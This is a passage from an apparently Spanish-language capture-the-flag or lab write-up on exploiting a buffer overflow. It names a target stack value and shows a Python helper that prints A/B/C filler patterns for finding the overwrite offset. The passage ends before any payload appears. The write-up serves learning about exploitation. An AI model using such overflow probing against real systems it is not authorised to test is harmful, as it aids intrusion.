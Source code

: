 ## Automatizacion con Python
**Nota** Para resolver el **bufferOverFlow** he usado la documentacion de: [dise0](https://dise0.gitbook.io/h4cker_b00k) en la cual hago uso de sus scripts en python para ayudarme con la auditoria ya que mis conocimientos en **BufferOverFlow** son minimos:
El objetivo es obtener el valor de stack: **( 0x3164413064413963 )** que es el que debemos sobreescribir
Usaremos el script de **dise0** para automatizar la creacion de caracteres: **( overflowCreate.py )**
```python
import argparse

def generate_pattern(buffer_length, offset_length=0, rest_length=0):
    """
    Genera una cadena en la que:
    - Los caracteres del buffer se rellenan con 'A'.
    - El segmento del offset se llena con 'B'.
    - El resto se llena con 'C'.
    
    Args:
        buffer_length (int): Longitud del segmento del buffer (relleno con 'A').
        offset_length (int): Longitud del segmento del offset (relleno con 'B').
        rest_length (int): Longitud del segmento del resto (relleno con 'C').
        
    Returns:
        str: Cadena generada.
    """
    buffer_segment = 'A' * buffer_length
    offset_segment = 'B' * offset_length
    rest_segment = 'C' * rest_length
    return buffer_segment + offset_segment + rest_segment

def main():
    parser = argparse.ArgumentParser(description="Generador de patrones para buffer overflow.")
    parser.add_argument('-b', '--buffer', type=int, required=True, help="Tamaño del segmento para desbordar el buffer (relleno con 'A').")
    parser.add_argument('-o', '--offset', type=int, default=0, help="Tamaño del segmento del offset (relleno con 'B').")
    parser.add_argument('-p', '--padding', type=int, default=0, help="Tamaño del segmento restante (relleno con 'C').")
    
    args = parser.parse_args()
    
    # Validar que `-o` y `-p` dependen de `-b`
    if args.offset and not args.buffer:
        print("Error: El argumento '-o' depende de '-b'. Usa '-b' para especificar el buffer primero.")
        return
    if args.padding and not (args.buffer and args.offset):
        print("Error: El argumento '-p' depende de '-b' y '-o'. Usa ambos antes de '-p'.")
        return
    
    # Generar patrón
    pattern = generate_pattern(args.buffer, args.offset, args.padding)
    print("\n=== Patrón Generado ===")
    print(pattern)

if __name__ == "__main__":
    main()
```
